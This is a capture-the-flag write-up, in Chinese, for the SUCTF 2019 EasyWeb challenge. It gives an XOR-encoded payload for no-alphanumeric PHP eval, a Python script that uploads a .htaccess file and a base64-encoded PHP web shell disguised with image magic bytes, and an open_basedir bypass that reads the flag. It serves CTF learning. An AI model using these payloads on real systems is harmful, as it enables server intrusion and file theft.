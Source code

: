 # [SUCTF 2019]EasyWeb

[题目地址](https://buuoj.cn/challenges#[SUCTF%202019]EasyWeb)

[wp](https://www.shawroot.cc/1840.html)已经讲的很好了，我再记个笔记，知识点多加深一下记忆。

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

这题分为几个阶段，第一个阶段是一个无数字字母rce。先看看这个正则留了什么可以用。

```php
<?php
for($a = 0; $a < 256; $a++){
    if (!preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($a))){
        echo chr($a)." ";
    }
}
//! # $ % ( ) * + - / : ; < > ? @ \ ] ^ { }
```

留了异或，这题就不难了。形如`${_GET}{%f8}();&%f8=cmd`的payload需要的代码量最少且功能齐全，`_GET`被过滤了，但是可以用异或绕过。借用大佬的脚本计算异或值。

```php
<?php
$payload = '';
$x = '_GET';
for($i = 0; $i < strlen($x); $i++){
    for ($j = 0; $j < 255; $j++){
        $k = chr($j) ^ chr(248);
        if ($k == $x[$i]) {
            $payload .= '%'.dechex($j);
        }
    }
}
echo '%f8%f8%f8%f8^'.$payload;
?>
```

或者不用脚本计算，直接和0xFF异或，这样就相当于取反，直接一行代码搞定。

```php
<?php
echo urlencode("\xff\xff\xff\xff^".~"_GET");
```

这里因为长度限制在18以内，有用的函数只能执行phpinfo和题目自带的get_the_flag。先看phpinfo：

- ?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo

不知道是不是buu配置环境时搞错了，phpinfo界面搜索flag直接就出来了。其实这一步预期解只是收集信息，还要利用get_the_flag函数传马。get_the_flag函数里面过滤了文件内容，不能包含`<?`；后缀里不能有ph；exif_imagetype()检测需要是图片。简单但有效的过滤，问题是.htaccess文件没过滤一切都白给。.htaccess文件绕后缀名这个见多了，绕文件内容则是用了耳熟能详的php伪协议。我们把马base64编码上传，然后.htaccess文件来上一句`php_value auto_append_file "php://filter/convert.base64-decode/resource=xxx"`把马baes64解码，这马就能正常用了。exif_imagetype()检测也好绕过，三种方法：

1. 在文件头部加上：

```
#define width 1337
#define height 1337 
```

数字随便填，仅适用于.htaccess文件。

2. 文件头部加上`\x00\x00\x8a\x39\x8a\x39`。
3. 文件头部加上`\x18\x81\x7c\xf5`，这样base64之后开头就是 GIF89a了。仅适用于base64编码的文件。

统一用第二种方法，两个文件的适用。脚本直接自动化，先上传一个.htaccess，再上传base64编码后的马。

```python
import requests
import hashlib
import base64

url ="http://d718e879-56e1-4300-98a0-7d36094a4eea.node4.buuoj.cn:81/"
padding = "?_=${%f8%f8%f8%f8^%a7%bf%bd%ac}{%f8}();&%f8=get_the_flag" #调用上传函数
myip=requests.get("http://ifconfig.me").text #http://ifconfig.me 这个网址可以获取ip等信息
ip_md5 = hashlib.md5(myip.encode()).hexdigest()
userdir="upload/tmp_"+ip_md5+"/"
#AddType application/x-httpd-php 后面的内容要和上传的木马后缀对应上。后缀本身是什么不重要，重要的是要一致
htaccess = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .cc
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shaw.cc"
"""
shaw = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_GET['cmd']);?>")
files =[('file',('.htaccess',htaccess,'image/jpeg'))]

res = requests.post(url=url+padding,files=files)
files = [('file',('shaw.cc',shaw,'image/jpeg'))]
res = requests.post(url=url+padding,files=files)
print("the path is:"+url+res.text)
```

传上去后蚁剑连接会发现看不了flag。回到最开始的phpinfo，早已经告诉我们限制了访问路径：`open_basedir /var/www/html/:/tmp/`，只能访问tmp下的文件。大佬说蚁剑有插件可以绕，不过只支持linux，只能用[open_basedir bypass](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/)了。去到上传的马的路径，传入cmd参数：

- ?cmd=mkdir('rot');chdir('rot');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(glob('*'));

能发现flag名为`THis_Is_tHe_F14g`，更改一下payload就能获取flag。

- ?cmd=mkdir('rot');chdir('rot');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(glob('*'));print_r(file_get_contents('/THis_Is_tHe_F14g'))

根据文章所说，ini_set('open_basedir','xxx')正常来说只能被调用一次，第一次设置过了那么第二次再设置是无法覆盖第一次的。这道题里第一次设置了`ini_set('open_basedir','/var/www/html/tmp')`，似乎我们无法将其再设置为flag所在的根目录了。且慢，我们可以在tmp目录下创建一个新的文件夹，名字随意，然后切进刚刚创建的文件夹，设置ini_set('open_basedir','..')。这样是不会有问题的，因为新建文件夹的`..`目录正是/var/www/html/tmp，没有跟第一次设置的冲突。然而设置open_basedir为..有个问题，..目录是会随时改变的，也就是说这时我们chdir('..')把目录往上切，切多少次都不会报错，我们确实一直在..目录下，只不过这个目录每次都在改变。根据当前路径不断调用chdir('..')往上切，当切到根目录下时，调用ini_set('open_basedir','/')，就能成功把open_basedir设为根目录了。